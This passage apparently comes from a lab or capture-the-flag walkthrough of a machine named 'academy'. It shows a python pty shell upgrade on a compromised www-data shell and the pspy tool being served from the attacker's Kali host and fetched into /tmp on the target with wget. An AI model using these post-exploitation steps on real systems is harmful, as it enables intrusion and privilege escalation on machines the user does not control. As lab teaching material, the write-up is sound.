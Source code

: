 ~~~
-rw-r--r-- 1 grimmie administrator  220 May 29  2021 .bash_logout
-rw-r--r-- 1 grimmie administrator 3.5K May 29  2021 .bashrc
drwxr-xr-x 3 grimmie administrator 4.0K May 30  2021 .local
-rw-r--r-- 1 grimmie administrator  807 May 29  2021 .profile
-rwxr-xr-- 1 grimmie administrator  112 May 30  2021 backup.sh

/home/grimmie/.local:
total 12K
drwxr-xr-x 3 grimmie administrator 4.0K May 30  2021 .
drwxr-xr-x 3 grimmie administrator 4.0K May 30  2021 ..
drwx------ 3 grimmie administrator 4.0K May 30  2021 share
ls: cannot open directory '/home/grimmie/.local/share': Permission denied

~~~

I noticed as bash script called "backup.sh" which has read, write and execute permissions for the user and read permission for the whole world. Enough reason for me to see what the file does.
~~~
$ cat /home/grimmie/backup.sh
#!/bin/bash

rm /tmp/backup.zip
zip -r /tmp/backup.zip /var/www/html/academy/includes
chmod 700 /tmp/backup.zip

~~~
The bash file removes a backup archive and creates a new backup archive and sets the permissions afterwards.
I decide to upgrade my shell with python...
~~~
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@academy:/$
~~~
After upgrading my shell a bit, it was time to bring **[pspy](https://github.com/DominicBreuker/pspy)** to the target. TO get this file to the target I use the python webserver with the following command: **sudo python3 -m http.server 80**

~~~
┌──(emvee㉿kali)-[~/transfer]
└─$ sudo python3 -m http.server 80
[sudo] password for emvee: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
~~~
After starting the python webserver, I need to download the file on the target. To do this I have to be able to write the file to a directory. Most of the time the **/tmp** directory could be used to download files. So I changed the working directory and download it to this direcotry.

~~~
www-data@academy:/$ cd /tmp
cd /tmp
www-data@academy:/tmp$ wget http://192.168.138.4/pspy64
wget http://192.168.138.4/pspy64
--2022-08-18 06:45:27--  http://192.168.138.4/pspy64
Connecting to 192.168.138.4:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: 'pspy64'

pspy64              100%[===================>]   2.94M  --.-KB/s    in 0.01s   

2022-08-18 06:45:27 (225 MB/s) - 'pspy64' saved [3078592/3078592]

~~~

